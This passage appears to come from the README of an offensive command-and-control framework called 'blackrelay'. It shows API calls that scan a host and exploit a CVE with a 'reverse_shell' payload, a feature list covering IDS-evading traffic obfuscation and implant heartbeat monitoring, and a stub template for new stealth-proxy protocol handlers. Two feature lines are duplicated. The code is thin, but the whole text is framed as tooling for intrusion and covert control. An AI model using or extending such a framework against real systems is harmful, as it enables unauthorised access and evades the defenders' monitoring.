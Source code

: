 ```python
# Scan for vulnerabilities
vulnerabilities = exploitation.scan_target("192.168.1.50")

# Exploit vulnerable service
exploit_result = exploitation.exploit_vulnerability(
    target="192.168.1.50",
    vulnerability_id="CVE-2023-1234",
    payload="reverse_shell"
)
```

## Security Considerations

- All communications are encrypted, ensuring secure data exchange.
- Traffic obfuscation to avoid pattern detection:
  - Obfuscation techniques include randomizing packet sizes, introducing delays, and mimicking legitimate traffic patterns such as web browsing or DNS queries.
  - Examples of patterns avoided include consistent packet sizes, predictable timing intervals, and unencrypted payloads that could be flagged by intrusion detection systems.
- Heartbeat monitoring for implant health
- Strategy engine for adapting operations based on threat level
- Heartbeat monitoring for implant health
- Strategy engine for adapting operations based on threat level

## Development

### Adding New Protocol Handlers

Create a new protocol handler by extending the base classes:

```python
from blackrelay.stealth_proxy import StealthProxy

class CustomProtocolHandler(StealthProxy):
    def __init__(self, config):
        super().__init__(config)
        # Custom initialization
        self.config = config

    def start(self):
        # Start the handler
        print(f"Starting custom protocol handler with config: {self.config}")

    def send_data(self, data, session_id=None):
        # Send data using custom protocol
        print(f"Sending data: {data} to session: {session_id}")

# Example usage
if __name__ == "__main__":
    config = {"protocol": "custom", "port": 12345}
    handler = CustomProtocolHandler(config)
    handler.start()
    handler.send_data("Test data", session_id="session-001")
```
